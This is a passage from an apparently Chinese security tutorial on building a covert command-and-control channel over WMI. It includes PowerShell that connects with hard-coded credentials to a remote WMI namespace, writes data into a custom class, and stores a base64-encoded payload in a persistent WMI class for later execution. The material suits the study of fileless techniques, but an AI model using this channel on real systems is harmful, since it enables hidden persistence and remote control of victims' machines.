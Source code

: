 如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/c5552e1f0acf347931a9ec9e3fd3884c96fb3303.jpg)

（2）Server端执行查询获取主机信息

```
 ([WmiClass] 'Win32_UserInfo').Properties['IP19216840208']

```

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/0732b9a7da5f93fed23ae48dc199ab9321bfedde.jpg)

2、Client获取指令并执行
---------------

**设计思路**：

```
Client加密存储指令
Client读取指令-解密-执行

```

**实现**：

（1）Client加密存储指令

Client端Powershell代码如下：

```
#定义Payload，为保证变量能够解析，需要使用单引号‘
$Payload=@'
$Options = New-Object Management.ConnectionOptions
$Options.Username = 'a'
$Options.Password = 'testtest'
$Options.EnablePrivileges = $True
$Connection = New-Object Management.ManagementScope
$Connection.Path = '\\192.168.40.206\root\cimv2'
$Connection.Options = $Options
$Connection.Connect()
$EvilClass = New-Object Management.ManagementClass($Connection, [String]::Empty, $null)
$EvilClass['__CLASS'] = 'Win32_CommandTest'
$EvilClass.Properties.Add('IP19216840208', [Management.CimType]::String, $False)
$EvilClass.Properties['IP19216840208'].Value ="Run Command Test!" 
$EvilClass.Put() 
'@
#对payload作base64加密
$bytes  = [System.Text.Encoding]::Unicode.GetBytes($Payload);
$EncodedPayload = [System.Convert]::ToBase64String($bytes); 
#存储加密后的payload
$StaticClass = New-Object Management.ManagementClass('root\cimv2', $null,$null)
$StaticClass.Name = 'Win32_Command'
$StaticClass.Put()
$StaticClass.Properties.Add('EnCommand' , $EncodedPayload)
$StaticClass.Put() 

```
